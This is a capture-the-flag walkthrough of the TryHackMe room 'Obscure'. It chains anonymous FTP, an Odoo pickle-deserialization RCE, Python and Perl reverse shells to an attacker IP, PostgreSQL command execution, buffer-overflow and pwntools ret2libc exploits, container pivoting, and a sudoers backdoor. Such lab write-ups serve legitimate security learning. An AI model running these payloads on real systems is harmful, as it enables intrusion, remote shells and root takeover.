# Room


- **Title:** obscure1.2
- **Name:** [Obscure](https://tryhackme.com/r/room/obscured)
- **Description:** A CTF room focused on web and binary exploitation.

## Flags

1.  What's the initial flag?
2.  What's the user flag?
3.  What's the root flag?

### Author

- **Name:** [m3gakr4nus](https://tryhackme.com/p/m3gakr4nus)
- **Duration:** 2024-07-02 - 2024-07-16

# Flag 1

## Nmap Scan

I first started by running an nmap scan.

```bash
sudo nmap -sS -Pn -T4 -v -p- -A -oN portscan.nmap <target ip>
```

**3 ports** are shown to be open:

- **21/tcp FTP** - vsftpd 3.0.3
- **22/tcp SSH** - OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
- **80/tcp HTTP** - Werkzeug httpd 0.9.6 (Python 2.7.9)  
    

The script scans from Nmap also reveal that **anonymous FTP login is allowed**

## FTP - Anonymous Login

I then connected to the FTP server as `anonymous`

```bash
ftp anonymous@<target ip> # No password required (press enter)
```

There is a directory called `pub` and there are 2 files in it called `notice.txt` and `password`  
I downloaded the files to my local machine for inspection.  


**notice.txt** contents:

> From **antisoft.thm** security,
> 
> A number of people have been forgetting their passwords so we've made a temporary password application.

We can take away two things from this:

1.  The target's domain name: **antisoft.thm** (added this to `/etc/hosts`)

```bash
sudo echo "<target ip> antisoft.thm" >> /etc/hosts
```

2.  The file `password` is an executable which provides users their passwords if forgoten

```bash
file password
```

Let's run the `password` binary and see what it does.  
  
It's asking for an employee ID.  
If we can reverse engineer this binary and take a look at the source code, we might find some hard-coded IDs which we can use to retrieve some passwords.

For this task, I use [Ghidra](https://github.com/NationalSecurityAgency/ghidra)

## Reverse engineering - Ghidra ("password" binary)

- I first create a new project in Ghidra  
    `File > New Project > Non-shared Project > (choose a path and project name)`
- Then I import the binary into the project  
    `File > Import File > (select file) > ok`  
    
- Now I open the CodeBrowser by clicking on the green dragon icon  
    
- It then asks if I want to analyse the binary which I then press **yes**

Now form the **Symbol Tree** and then **Funtions** click on the `main` function.

### Code summary - `main` function


- It simply prints two lines to the screen (puts)
- Then takes an input (scanf)
- The input is then passed to a funtion named `pass`

### Code summary - `pass` function


- The user-input is compared with a hard-coded employee ID (strcmp)
- If the comparison results is 0 (0 is represented as 'true/values match' by `strcmp`), the password is printed out  
    **Side-note**  
    If you look at the variables above the highlighted code in the picture above, the password is actually right there in hexadecimal.  
    `local_28 + local_20 + local_18` is the password in hexadecimal and in reverse order.  
    I'm not exactly sure why it is in reverse order but I know from previous CTFs that it has something to do with how the system stores each byte in memory ([**big-endian/little-endian**](https://en.wikipedia.org/wiki/Endianness))

Now let's try the employee ID and see what the password is  
  
Perfect, we got a password! But who's password is this and where can we use it?

## HTTP - antisoft.thm

Since we know port 80 is open let's open the website in a browser.  
We are redirected to http://antisoft.thm/web/login  


- We can see that it's running [Odoo](https://www.odoo.com/)

> Odoo is a suite of open source business apps that cover all your company needs: CRM, eCommerce, accounting, inventory, point of sale, project management, etc.

- What really took my attention is the "Manage Databases" option so I clicked on it

It took me to http://antisoft.thm/web/database/manager  


- We can see that it required no authentication whatsoever
- we can "Backup" the database and simply dump the content for ourselves
- It then asked me for a **Master Password**  
    
- I simply used the password that I got from the binary in the previous step and it worked
- We are provided with the database dump in a zip file
- Let's unzip the file

```bash
mkdir db && unzip <filename> -d ./db
```

The `dump.sql` file is what we're after  
After cating out the file I realized that it's a huge file to scroll through manually so I used **grep**  
Since we are looking for an email address to login and since we know the domain name is `antisoft.thm` we can simply grep for `antisoft.thm`

```bash
grep -iE "*@antisoft\.thm"
```


- We find an email address called `admin@antisoft.thm`
- We also find a **pbkdf2-sha512 hash** which is a nightmare to crack since it takes a while
- I just tried using the **email address and the password that we already have** and I was able to login  
    

## Reverse shell

My first thought after going through the apps list was to install the "Website Builder" and edit some template php file to add `<?php system($_GET['cmd']); ?>` and get a reverse shell.  
After installing it though, I couldn't find a way to manually edit any php code. So I started enumerating...

In the `Settings` page we can see that this is `Odoo 10.0`  
  
A quick google search shows that there is a **code execution vulnerability and an exploit** for this version.  
**CVE:** `CVE-2017-10803`  
**Exploit-db:** https://www.exploit-db.com/exploits/44064  
**Searchsploit:** linux/local/44064.md

> One of the core Odoo modules, Database Anonymization, allows an administrator to anonymize the contents of the Odoo database. The module does this by serializing the contents of the existing database using Python’s pickle module into a backup file before modifying the contents of the database. The administrator can then de-anonymize the database by loading the pickled backup file.
> 
> Python’s pickle module can be made to execute arbitrary Python code when loading an attacker controlled pickle file. With this, an administrator can execute arbitrary Python code with the same privilege level as the Odoo webapp by anonymizing the database then attempt the de-anonymization process with a crafted pickle file.

### PoC:

```python
import pickle # change this from 'cPickle'
import os
import base64
import pickletools

class Exploit(object):
    def __reduce__(self):
        # Run a python server on your local machine "python3 -m http.server 80"
        # Use curl to see if payload is being executed
        return (os.system, (("curl <attacker ip>/test"),))

with open("exploit.pickle", "wb") as f:
    pickle.dump(Exploit(), f, pickle.HIGHEST_PROTOCOL)
```

To save you some headache, following the PoC I kept getting an error saying `TypeError: 'bool' object is not iterable` and I wasn't getting a reverse shell.  
After trying for hours and giving up, I found [this write-up](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-rooms/obscured.md) explaining that:

- This error happens and can be ignored
- You should use python2.7 on the PoC code
- The target site is running on a restricted docker container which means many common tools will not be present. E.g., no wget, no advanced version of bash or whatever.

For some reason it never occured to me to test the payload to see if I can either ping myself or something. Anyway, moving on...

After testing the payload and seeing that it's being executed, I replaced the curl payload with a python reverse-shell payload since I know python is installed on the server

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>", <attacker_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And we're in...  


```bash
python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
# Background the shell by pressing CTRL+Z
stty raw -echo && fg
```

- We have a reverse-shell as the user `odoo`
- The fist flag can be found inside its home directory  
    

# Flag 2

Let's get `linpeas` and `pspy` onto the machine

```bash
python3 -m http.server 80 # Attacker machine (run inside linpeas and pspy direcory)
curl <attacker_ip>/linpeas.sh -o linpeas.sh
curl <attacker_ip>/pspy64 -o pspy
chmod 700 linpeas.sh pspy
```


## Linpeas

  
We can see `nmap` and `nc` are on the machine  
  
We also notice that `/proc` is mounted from the host  
  
and that we have `dac_override` capability inside this container  
  
I noticed that the postgresql is hosted on another host (container)  
What really caught my attention was this unknown SUID binary identified by linpeas  
  
Let's run it...  


- The binary gives us a hint to exploit it to "get on the box"
- It simply quits whenever an input is provided
- Let's download the binary to our local machine and inspect it

```bash
nc -lvnp 8080 < /ret # run on victim
```

```bash
nc <target_ip> 8080 > ./ret # run on attacker machine
```

## Reverse engineering - Ghidra ("ret" binary)

- The main function simply executes a function called `vuln`
- We can see that the `vuln` function is using `gets` (a vulnerable function to buffer-overflow attacks) to get user input
- The variable that the user-input is saved into has been allocated a total of 128 Bytes  
    
- We can also see another function called `win` which executes a shell for us  
    
- So if we are able to overflow the binary and replace the return address of the vuln function (normaly `main`) with `win`, we can execute a shell and get ROOT access to the container since the binary has the SUID bit set.

## Buffer-overflow - rooting the container

- Testing the binary shows that it crashes if the input is 136 Bytes long  
    
- Adding 4 more bytes replaces the return address. (41414141 is 'AAAA' in hexadecimal)
    

```bash
python3 -c "print(bytes.fromhex('41414141'))"
```

Now all we have to do is find the memory address of the `win` function and add it to our initial 136 Bytes long payload which overflows the binary.  
For that we can either use ghidra or objdump

### ghidra - `win` function's memory address


### objdump - `win` function's memory address

```bash
objdump -d ./ret | less
/win # 'find' function for 'less'
```



Now we can write a quick exploit to replace the return address to `00400646`  
Here is the exploit that I came up with

```python
import sys
import codecs

# The memory address of the function that we want to execute = 00400646 in hexadecimal
# [::-1] reverses the address (little-endian)
win_function_mem_address = b"\x00\x40\x06\x46"[::-1]

# 136 bits causes segmentation fault
payload = b"A" * 136

# Add the target function's memory address to the payload
payload += win_function_mem_address

# Use sys to make sure python properly outputs byte-strings
ascii_stdout = codecs.getreader("ascii")(sys.stdout, errors="strict")

ascii_stdout.write(payload)
```

- After trying this exploit locally it wasn't really working
- So I decided to just get it onto the target machine and try it there
- That's when I was reminded that python3 is not installed in the container
- Initially I wrote this exploit with python3 in mind which you can simply use the following to output the payload in the write format:

```python3
sys.stdout.buffer.write(payload)
```

- So with some research (Stackoverflow), I re-wrote the exploit in python2
- After running the exploit on the target machine we can see that we are able to execute commands and that we have the **EUID 0**
- Unfortunately we didn't see the nice "congratulation..." message that we saw in the source code :(
    - You can type 'exit' and hit enter once you run the exploit to see the message if you really want to :)


```bash
(python ./exp.py; cat) | /ret
```

- Here we use `(python ./exp.py; cat)` to keep the shell's file-descriptors open so we can interact with the system
- A normal execute and pipe closes the file-descriptors and it just shows us a segmentation fault
- In order to get **UID 0** we can do this

```bash
python -c "import pty; import os; os.setuid(0); pty.spawn('/bin/bash')"
```


- Looking at root's home directroy we can see a file called `flag.txt`
- cating the file out, we see the following message:

> Well done,my friend, you rooted a docker container.

  
Well, thank you but I was expecting a damn flag here... :(

## Container escaping

To save you some headache I spent hours trying to find ways using the mounted `/proc` to escape the container  
The **release_agent** technique doesn't work since the cgroup can't be mounted (permission denied)  
I went as far as compromising the host that the DBMS was running on with no luck

### Side-note - Postgresql RCE

If you look at the `odoo` user's environment variables the database credentials are all there and you can connect to the database using the command below:

```bash
psql -h 172.17.0.2 -U odoo -d main # I used --list to list all DBs and found `main` first
# Then enter the DB password in the environment variable
```

Now you can use this technique to run system commands within the postgresql DBMS:

```SQL
CREATE TABLE cmd(output text);
COPY cmd FROM PROGRAM 'id'; -- make sure you're using single-quotes
SELECT * FROM cmd;
```


- Just to let you know, python is not on the target at all but perl is
- Here is a usefull perl reverse shell payload which you replace with the 'id' above:

```perl
use Socket;$i="<attacker ip>";$p=<attacker prt>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};
```

```SQL
-- I base64-encoded the above payload to avoid escaping every single-quote
-- Before encoding it I placed the payload like this: perl -e '<payload>'
-- The final payload/query is this:
COPY cmd FROM PROGRAM 'echo <base64_payload> | base64 -d | bash';
```


## Pivoting / Container escape

After remembering that the `nmap` was on the box for some reason, I decied to use it and find other online hosts on the subnet

```bash
nmap -sn -PE 172.17.0.0/16 -T4 # Host discovery
```



- Here we find the host `172.17.0.1`
- From the domain name I suspect that this is the host
- Let's scan it and find it's open ports

```bash
nmap -sS -Pn -v -T4 -A 172.17.0.1 # Port and service scan
```

- After seeing the port scan results and connecting to the FPT and seeing the same directory and files we saw on the host, my suspisions were confirmed
- We see that the port **4444** is open but we didn't see this port on our initial scan of the host
- That is because the port is only accessible localy (127.0.0.1:4444) and not (0.0.0.0:4444)  
    
- Let's use the available `nc` on the container to see what is running on that port

```bash
nc 172.17.0.1 4444
```


- We see something familiar (I think you already know what we have to do to escape the container XD)

All we have to do now is to run our exploit against this host

```bash
(python ./exp.py; cat) | nc 172.17.0.1 4444
```

aaaaaand we have successfully escaped the contianer:  


- We get access as a user called `zeeshan`
- You can find their private SSH key in their home folder
- Let's copy it to our machine and connect to the host via SSH  
    

```bash
cat .ssh/id_rsa
# Copy the content
nano id_rsa # Paste content here on your attacker machine then CTRL+O to save and CTRL+x to exit
chmod 600 id_rsa # Otherwise ssh won't use it
ssh zeeshan@antisoft.thm -i ./id_rsa
```

- We also see the file `user.txt`, let's cat it and get our flag  
    
	
# Flag 3
After enumerating the machine, we find the `/exploit_me` file which has the SUID bit set.
Let's get it onto our local machine and analyse it.

```bash
checksec ./exploit_me
```

- We can see that there are no canaries and no address randomization being used.
- The `NX` is set which means we can't use custom shellcodes to exploit a vulnerability since this makes the stack unexecutable

Running the binary simply waits for some input and quits right after:


I de-assembled and de-compiled the binary with `IDA` for inspection:

- A variable is initialized first with a 32-Byte allocated buffer (20 hexadecimal = 32 decimal)
- The binary sets the UID to 0 (root)
- It then calls `puts()` to print out the message
- Then a call is made to the `gets()` function which we know is vulnerable to the **BOF**

Since there are no other functions being called with which we can overwrite the return address and that the `NX` bit is set and it is impossible to run custom shellcodes, this led me to believe that a `ret2libc` attack needs to be done here.
At this point, since I had very little experience with binary exploitation, I spent two weeks trying to learn as much as I can.
Here are some of the resources that I used:
- [TryHackMe (Windows x64 Assembly)](https://tryhackme.com/r/room/win64assembly)
- [TryHackMe (Intro To Pwntools)](https://tryhackme.com/r/room/introtopwntools)
- [TryHackMe (Windows Reversing Intro)](https://tryhackme.com/r/room/windowsreversingintro)
- [TryHackMe (ret2libc)](https://tryhackme.com/r/room/ret2libc)
- [YouTube (RazviOverflow)](https://www.youtube.com/watch?v=8FEYdpZdftQ&list=PLchBW5mYosh-_YNqz6oJgH-r4oQR-Wftc)
- [YouTube (crow)](https://www.youtube.com/watch?v=6sUd3AA7Q50)

I actually learned alot during these 2 weeks but If I'm being honest, there is so much more that I need to learn and since binary exploitaion is not my favorite subject, I don't want to spend more time on it. Maybe I'll come back to it in the future.

Let's analyse the binary and find the offset for our payload. I will use `gdb-peda` for this:
```bash
gdb ./exploit_me
pattern create 50 pattern.txt
r < pattern.txt
```

- I created a pattern and ran the binary using the pattern as input to find the offset that it takes to overwrite the `RSP` register
- By using the command below we can find the offset in `gdb` which will tell us that it is **40**
```bash
pattern offset "AA0AAFAAbA"
```


Let's check to see if `ASLR` is enabled on the target machine:
```bash
cat /proc/sys/kernel/randomize_va_space # Output = 2
# 2 = Full randomization
# 1 = Conservative randomization
# 0 = No randomization
```

- Since **ASLR is enabled** on the target machine, we need to leak the address of the libc functions used in the binary at run-time and use those addresses to calculate the offset to the `system()` function within `libc`	.

- We will then re-execute `main()` with `ROP` (Return oriented programming) and replace the address of a function in the `.got.plt` table with the `system()` address and pass it the `/bin/sh`-string address (which can also be found in `libc`) as the argument.

If this is all too complicated, believe me it was a lot for me at first too.
I really reocmmend watching those resources I mentioned above to fully grasp what is going on here.

We can use pwntools to run the exploit remotely via ssh!

Using the exploit below, I'm able to leak the functions used by the binary wich are inside libc:
```python
from pwn import *

######################## Stage 1
user = "zeeshan"
port = 22
host = "antisoft.thm"
private_key = "./id_rsa"

ssh_connection = ssh(host=host, user=user, keyfile=private_key, port=port)

# Load the binary
context.binary = binary = ELF("./exploit_me", checksec=False)
_ROP = ROP(binary)


padding = b'A' * 40
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
plt_puts_address = p64(binary.plt.puts)
got_puts_address = p64(binary.got.puts) 
got_gets_address = p64(binary.got.gets)
got_setuid_address = p64(binary.got.setuid)
main_address = p64(binary.symbols.main)

payload = padding
payload += pop_rdi_ret_address + got_puts_address + plt_puts_address
payload += pop_rdi_ret_address + got_gets_address + plt_puts_address
payload += pop_rdi_ret_address + got_setuid_address + plt_puts_address
payload += main_address

p = ssh_connection.process("/exploit_me")
p.recvline()
p.sendline(payload)
output = p.recv().split(b"\n")

# Left-justify the returned hex so it can be unpacked.
puts_address = u64(output[0].ljust(8, b"\x00"))
gets_address = u64(output[1].ljust(8, b"\x00"))
setuid_address = u64(output[2].ljust(8, b"\x00"))

print(f"Puts address: {hex(puts_address)}")
print(f"Gets address: {hex(gets_address)}")
print(f"Setuid address: {hex(setuid_address)}")
```


- The first 2 and the last 3 nibbles of each address are always the same in each runtime
- That is because ASLR only randomizes the bits in between
- The last 3 nibbles are usually different in each libc version so by running the exploit remotely, we grab the last 3 digits and go [here](https://libc.rip/) and find the libc version
- We can then calculate the offset to the base address of libc


Let's go ahead and download the `.so` file for the first libc version found and try it
To find out the base address of libc, all we have to do is add this to the exploit above:
```python
libc = ELF("./libc6_2.23-0ubuntu11.2_amd64.so", checksec=False)
libc.address = puts_address - libc.sym["puts"]
print(f"libc Base address: {hex(libc.address)}")
```

Now we need to craft a new payload which finds the `/bin/sh` string within `libc` and passes it to our call to `system()` as the argument
Now there some aligment issues in memory with Ubuntu which requires us to simply add a `ret` instruction after our padding

After trying the first libc version (ubuntu11.2), it was failing so I tried the other one.
The only difference between the two version is the address of `str_bin_sh` otherwise `system()` is at the same address in both versions (The only different that matters to us)

The final exploit looks like this:
```python
from pwn import *

######################## Stage 1
user = "zeeshan"
port = 22
host = "antisoft.thm"
private_key = "./id_rsa"

ssh_connection = ssh(host=host, user=user, keyfile=private_key, port=port)

context.binary = binary = ELF("./exploit_me", checksec=False)
# context.log_level = "debug" -- un-comment for debugging

_ROP = ROP(binary)

padding = b'A' * 40
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
plt_puts_address = p64(binary.plt.puts)
got_puts_address = p64(binary.got.puts)
got_gets_address = p64(binary.got.gets)
got_setuid_address = p64(binary.got.setuid)
main_address = p64(binary.symbols.main)

payload = padding
payload += pop_rdi_ret_address + got_puts_address + plt_puts_address
payload += pop_rdi_ret_address + got_gets_address + plt_puts_address
payload += pop_rdi_ret_address + got_setuid_address + plt_puts_address
payload += main_address

p = ssh_connection.process("/exploit_me")
p.recvline()
p.sendline(payload)
output = p.recv().split(b"\n")

puts_address = u64(output[0].ljust(8, b"\x00"))
gets_address = u64(output[1].ljust(8, b"\x00"))
setuid_address = u64(output[2].ljust(8, b"\x00"))

print(f"Puts address: {hex(puts_address)}")
print(f"Gets address: {hex(gets_address)}")
print(f"Setuid address: {hex(setuid_address)}")

######################## Stage 2

libc = ELF("./libc6_2.23-0ubuntu11.3_amd64.so", checksec=False)
libc.address = puts_address - libc.sym["puts"]
print(f"libc Base address: {hex(libc.address)}")

bin_sh_address = p64(next(libc.search(b"/bin/sh")))
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
alignment_issue_ret_address = p64(_ROP.find_gadget(["ret"])[0])
system_address = p64(libc.symbols.system)

payload = padding
payload += alignment_issue_ret_address
payload += pop_rdi_ret_address
payload += bin_sh_address
payload += system_address

p.sendline(payload)
p.interactive()
```

I used the below command to become root in the SSH session for easier use:
```bash
echo "zeeshan ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

You can find the third flag inside root's home directory


# Outro
Many thanks to the creator of this room. ([Zeeshan1234](https://tryhackme.com/p/Zeeshan1234))
It was an amazing experience and taught me a lot about binary exploitation.

\- m3gakr4nus